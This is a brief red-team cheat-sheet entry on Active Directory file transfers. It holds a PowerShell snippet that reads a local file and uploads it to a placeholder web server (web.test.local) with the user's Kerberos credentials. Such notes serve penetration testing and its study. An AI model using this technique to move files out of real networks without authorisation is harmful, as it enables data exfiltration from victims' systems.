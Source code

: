 # Active Directory File Transfers


[xct]()'s PowerShell File upload with Kerberos Authentication 
```powershell
$FilePath = 'C:\programdata\example.txt';
$URL = 'http://web.test.local/Upload';
$fileBytes = [System.IO.File]::ReadAllBytes($FilePath);
$fileEnc = [System.Text.Encoding]::GetEncoding('UTF-8').GetString($fileBytes);
$boundary = [System.Guid]::NewGuid().ToString(); 
$LF = "`r`n";

$bodyLines = ( 
    "--$boundary",
    "Content-Disposition: form-data; name=`"file`"; filename=`"example.txt`"",
    "Content-Type: application/octet-stream$LF",
    $fileEnc,
    "--$boundary--$LF" 
) -join $LF

Invoke-RestMethod -Uri $URL -Method Post -ContentType "multipart/form-data; boundary=`"$boundary`"" -Body $bodyLines -UseDefaultCredentials;
```

## References

[notes.vulndev.io/wiki/redteam/misc/other](https://notes.vulndev.io/wiki/redteam/misc/other)